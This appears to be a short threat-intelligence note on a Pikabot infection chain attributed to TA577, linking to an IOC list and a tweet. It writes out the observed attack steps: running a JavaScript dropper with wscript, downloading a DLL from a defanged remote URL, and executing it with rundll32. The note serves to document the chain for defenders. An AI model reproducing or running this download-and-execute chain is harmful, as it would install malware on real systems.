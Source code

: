 
#Pikabot - #TA577 - url > .zip > .js > .dll

wscript PO_13670.js

cmd /c mkdir C:\ProgramData\LimdD\

WinHttp https://superrrdental.]com/H6F/dshjdsjkkd C:\ProgramData\LimdD\laminos.dll

rundll32.exe C:\ProgramData\LimdD\laminos.dll, HUF_inc_var

IOC's
https://github.com/pr0xylife/Pikabot/blob/main/Pikabot_05.10.2023.txt

### url > .zip > .lnk > curl > .dll

[#Pikabot](https://twitter.com/hashtag/Pikabot?src=hashtag_click)- [#TA577](https://twitter.com/hashtag/TA577?src=hashtag_click) - url > .zip > .lnk > curl > .dll
https://twitter.com/Cryptolaemus1/status/1709238615904018605



![proxy everywhere](/assets/images/proxy2.png)
